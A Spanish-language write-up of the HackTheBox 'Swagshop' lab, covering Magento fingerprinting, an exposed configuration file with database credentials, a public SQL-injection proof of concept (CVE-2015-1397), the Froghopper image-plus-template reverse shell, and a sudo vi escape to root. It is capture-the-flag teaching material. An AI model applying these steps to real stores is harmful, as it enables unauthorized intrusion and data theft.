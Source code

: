 # Swagshop ![Avatar](https://www.hackthebox.eu/storage/avatars/23477a54b0a750374e281656d69e7661_thumb.png)

## Initial Scan

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
```

## Enum
### HTTP
La página web esta usando un servicio llamado Magento, mediante banner grabing podemos identificar la versión exacta del mismo
```
{
    "skin/adminhtml/default/default/boxes.css": {
        "6aefb246b1bb817077e8fca6ae53bf2c": "CE 1.2.0, CE 1.2.0.1, CE 1.2.0.2, CE 1.2.0.3", 
        "84b67457247969a206456565111c456b": "CE 1.1.2, CE 1.1.3, CE 1.1.4", 
        "0902e89fb50b22d44f8242954a89300c": "EE 1.12.0.0", 
        "8a5c088b435dbcf1bbaac9755d4ed45f": "EE 1.12.0.1, EE 1.12.0.2", 
        "1cbeca223c2e15dcaf500caa5d05b4ed": "CE 1.7.0.0", 
        "d0511b190cdddf865cca7873917f9a69": "CE 1.1.1", 
        "a2c7f9ddda846ba76220d7bcbe85c985": "CE 1.2.1, CE 1.2.1.1, CE 1.2.1.2"
    }, 
    "js/mage/adminhtml/sales.js": {
        "a86ad3ba7ab64bf9b3d7d2b9861d93dc": "CE 1.0", 
        "d80c40eeef3ca62eb4243443fe41705e": "CE 1.5.0.1", 
        "95e730c4316669f2df71031d5439df21": "CE 1.1.0", 
        "bdacf81a3cf7121d7a20eaa266a684ec": "CE 1.5.1.0", 
        "ba43d3af7ee4cb6f26190fc9d8fba751": "EE 1.14.1.0", 
        "c8dd0fd8fa3faa9b9f0dd767b5a2c995": "CE 1.9.1.1", 
        "4422dffc16da547c671b086938656397": "CE 1.4.2.0", 
        "0e400488c83e63110da75534f49f23f3": "CE 1.3.2, CE 1.3.2.1, CE 1.3.2.2, CE 1.3.2.3, CE 1.3.2.4", 
        "48d609bb2958b93d7254c13957b704c4": "CE 1.6.1.0, CE 1.6.2.0", 
        "40417cf4bee0e99ffc3930b1465c74ae": "EE 1.11.2.0", 
        "5656a8c1c646afaaf260a130fe405691": "CE 1.8.1.0", 
        "17da0470950e8dd4b30ccb787b1605f5": "CE 1.1.5, CE 1.1.6", 
        "aeb47c8dfc1e0b5264d341c99ff12ef0": "EE 1.11.0.2", 
        "ec6a34776b4d34b5b5549aea01c47b57": "EE 1.10.0.2", 
        "a0436f1eee62dded68e0ec860baeb699": "CE 1.9.1.0", 
        "5112f328e291234a943684928ebd3d33": "CE 1.1.7, CE 1.1.8", 
        "7ca2e7e0080061d2edd1e5368915c267": "EE 1.10.1.1", 
        "a4296235ba7ad200dd042fa5200c11b0": "CE 1.6.0.0", 
        "9a5d40b3f07f8bb904241828c5babf80": "EE 1.13.1.0", 
        "3fe31e1608e6d4f525d5db227373c5a0": "EE 1.13.0.0, EE 1.13.0.2", 
        "26c8fd113b4e51aeffe200ce7880b67a": "CE 1.8.0.0", 
        "839ead52e82a2041f937389445b8db04": "CE 1.3.3.0", 
        "d1bfb9f8d4c83e4a6a826d2356a97fd7": "CE 1.3.1, CE 1.3.1.1"
    }, 
    "js/mage/adminhtml/product.js": {
        "e887acfc2f7af09e04f8e99ac6f7180d": "CE 1.3.0"
    }, 
    "skin/frontend/rwd/default/css/styles.css": {
        "bf6c8e2ba2fc5162dd5187b39626a3a0": "CE 1.9.0.1", 
        "5373978891051983da47ac5064b4b2b9": "EE 1.14.0.1", 
        "8a874fcb6cdcb82947ee4dbbe1822f3e": "CE 1.9.0.0", 
        "bd66fd43fecd7ca1e293226bb11e1658": "EE 1.14.0.0"
    }, 
    "js/prototype/validation.js": {
        "295494d0966637bdd03e4ec17c2f338c": "CE 1.4.1.0", 
        "d3252becf15108532d21d45dced96d53": "CE 1.4.1.1"
    }, 
    "js/mage/adminhtml/tools.js": {
        "86bbebe2745581cd8f613ceb5ef82269": "CE 1.7.0.1, CE 1.7.0.2", 
        "ea81bcf8d9b8fcddb27fb9ec7f801172": "CE 1.3.2.2", 
        "d594237950932b9a3948288a020df1ba": "CE 1.3.2.3, CE 1.3.2.4, CE 1.3.3.0"
    }, 
    "js/lib/flex.js": {
        "4040182326f3836f98acabfe1d507960": "CE 1.4.0.1", 
        "eb84fc6c93a9d27823dde31946be8767": "CE 1.4.0.0"
    }
  ```
Con esta lista de los banner podemos averiguar la version
  ```
curl -s http://10.10.10.140/skin/frontend/rwd/default/css/styles.css | md5sum
8a874fcb6cdcb82947ee4dbbe1822f3e
  ```
Vemos que se corresponde a la CE 1.9.0.0, la cual es una versión antigua (2014) con múltiples vulnerabilidades conocidas 
Mediante gobusting encontramos el siguiente archivo:
```
http://10.10.10.140/app/etc/local.xml
```
Si examinamos el mismo encontraremos credenciales:
```
               <connection>
                    <host><![CDATA[localhost]]></host>
                    <username><![CDATA[root]]></username>
                    <password><![CDATA[fMVWh7bDHpgZkyfqQXreTjU9]]></password>
                    <dbname><![CDATA[swagshop]]></dbname>
                    <initStatements><![CDATA[SET NAMES utf8]]></initStatements>
                    <model><![CDATA[mysql4]]></model>
                    <type><![CDATA[pdo_mysql]]></type>
                    <pdoType><![CDATA[]]></pdoType>
```
Encontramos un CVE que puede ser valido para obtener mas credenciales
```
https://www.cvedetails.com/cve/CVE-2015-1397/
```
## Exploit
### CVE-2015-1397
Encontramos una PoC para el mismo
```
https://github.com/joren485/Magento-Shoplift-SQLI
```
Lo probamos
```
python2.7 poc.py http://10.10.10.140
WORKED
Check http://10.10.10.140/admin with creds ypwq:123
```
La URL esta mal realmente es http://10.10.10.140/index.php/admin, nada mas logearnos vemos un mensaje bastante jugoso:
```
 Your web server is configured incorrectly. As a result, configuration files with sensitive information are accessible from the outside. Please contact your hosting provider.
 ```
 Probablemtente se refiera a las creds ya encontradas
 
### Froghopper
Encontramos una vuln RCE que parece ser plausible para escalar privilegios aquí
```
https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper
```
Vayamos paso por paso
* 1. Vamos a System -> Congifuration -> Development -> Templates y habilitamos una opcion que permite los symlinks
* 2. Crafteamos la imagen malicios añadiendo al final de una imagen normal el codigo para una reverse shell en PHP (shell.php.png) y la subimos a Catalog->Manage Categories 
* 3. El momento de aprovechar los symlinks, nos vamos a la pestaña de templates y creamos una nueva donde cambiaremos el link que sale por el siguiente:
```
block type='core/template' template='../../../../../../media/catalog/category/shell.php.png'
```
* 4. Abrimos un listener en local para la reverse shell
* 5. Le damos a preview template 
* 6. Enjoy reverse shell

## Privesc
```
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```
Ejecutamos lo siguiente:
```
sudo /usr/bin/vi /var/www/html/get.php
> :!sh
# /bin/bash
root@swagshop:~# id
uid=0(root) gid=0(root) groups=0(root)
```
# Analisís de la intrusión
##  CVE-2015-1397
Este CVE nos permitio obtener un usuario con acceso en el CMS mediante una SQLi
## Froghopper
Magento permite obtener un RCE  mediante una imagen con codigo php, la activacion de symlinks y una template
## Privileged vi execution
El usuario www-data tiene permiso para ejecutar vi como root
